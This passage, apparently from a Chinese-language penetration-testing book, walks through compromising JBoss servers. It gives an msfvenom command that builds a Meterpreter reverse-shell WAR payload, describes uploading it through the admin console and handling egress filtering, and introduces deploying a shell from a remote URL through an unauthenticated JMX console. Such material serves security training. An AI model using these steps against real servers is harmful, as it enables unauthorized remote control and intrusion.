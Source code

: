 这将带我们到一个新页面，在那里我们将看到上传 WAR 文件的选项。可以使用以下命令使用`msfvenom`生成 WAR 文件： 

```
msfvenom -p java/meterpreter/reverse_tcp lhost=<Metasploit_Handler_IP> lport=<Metasploit_Handler_Port> -f war -o <filename>.war
```

一旦我们生成了基于 WAR 的 Metasploit 有效载荷，我们将把文件上传到控制台的 Web 应用程序（WAR）部分，如下图所示：

![](img/ecada5d0-cd8f-4a8f-a965-fa3c580e165d.png)

一旦文件成功上传，我们只需要转到它被提取到的目录，并在我们的 Web 浏览器上打开它以获取 Meterpreter 连接，如下图所示：

![](img/3ed42436-8f10-4367-bfb6-beea5686b4ff.png)

在运行有效载荷之前，有一些需要考虑的事情，最重要的是检查出口连接。如果有效载荷被执行，但防火墙阻止对我们服务器的出口流量（出站连接），我们需要找到一种方法来获取反向 shell。如果没有办法做到这一点，我们总是可以选择绑定连接到服务器。

# 通过 JMX 控制台进行利用（MainDeployer 方法）

请考虑来自官方 JBoss 文档的以下引用（可在[`docs.jboss.org/jbossas/docs/Getting_Started_Guide/4/html-single/index.html`](https://docs.jboss.org/jbossas/docs/Getting_Started_Guide/4/html-single/index.html)找到）：

“JMX 控制台是 JBoss 管理控制台，它提供了服务器组成的 JMX MBeans 的原始视图。它们可以提供有关运行服务器的大量信息，并允许您修改其配置，启动和停止组件等。”

如果我们发现 JBoss 有未经身份验证访问 JMX 控制台的实例，我们可以使用`MainDeployer`选项将 shell 上传到服务器。这允许我们从远程 URL 获取 WAR 文件并在服务器上部署它。JMX 控制台如下图所示：

